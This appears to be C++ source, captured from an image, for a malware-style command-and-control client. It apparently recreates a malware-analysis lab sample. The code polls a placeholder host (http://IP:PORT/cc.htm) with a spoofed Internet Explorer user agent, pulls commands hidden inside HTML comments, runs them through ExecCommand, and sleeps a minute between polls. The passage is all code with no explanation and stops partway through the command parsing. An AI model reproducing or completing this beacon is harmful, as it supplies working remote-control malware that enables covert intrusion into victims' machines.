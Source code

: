 ```cpp
  int main(int argc, char* argv[], char* envp[])
  {
    if (CheckInternetAccess() != 0)
    {
      for (int i = 0; i < 1440; i++)
      {
        char cmd = GetCommandFromInternet(i);
        if ((int)cmd != 0)
        {
          printf_s("Success: Parsed command is \"%c\"\n", cmd);
          ExecCommand(cmd, (PSTR)argv[0]);
          Sleep(0xEA60);
        }
      }
    }
    return ERROR_SUCCESS;
  }

  char GetCommandFromInternet(int x)
  {
    HINTERNET hInet = nullptr;
    HINTERNET hGetUrl = nullptr;

    BOOL status = FALSE;

    char* buffer = new char[512];
    DWORD size;
    
    char user_agent[28];
    sprintf_s(user_agent, sizeof(user_agent), "Internet Explorer 7.50/pma%d", x);

    hInet = InternetOpenA(user_agent, 0, nullptr, nullptr, 0);
    hGetUrl = InternetOpenUrlA(hInet, "http://IP:PORT/cc.htm", nullptr, 0, 0, 0);
    if (hGetUrl == NULL)
    {
      printf_s("Error 2.1: Fail to OpenUrl\n");
      InternetCloseHandle(hInet);
      status = FALSE;
    }
    else if (!InternetReadFile(hGetUrl, buffer, 512, &size))
    {
      printf_s("Error 2.2: Fail to ReadFile\n");
      InternetCloseHandle(hInet);
      InternetCloseHandle(hGetUrl);
      status = FALSE;
    }
    else if (buffer[0] != '<')
    {
    _FailedCommand:
      printf_s("Error 2.3: Fail to get command\n");
      status = FALSE;
    }
    else
    {
      if (buffer[1] != '!')
        goto _FailedCommand;

      if (buffer[2] != '-')
        goto _FailedCommand;

      if (buffer[3] != '-')
        goto _FailedCommand;

```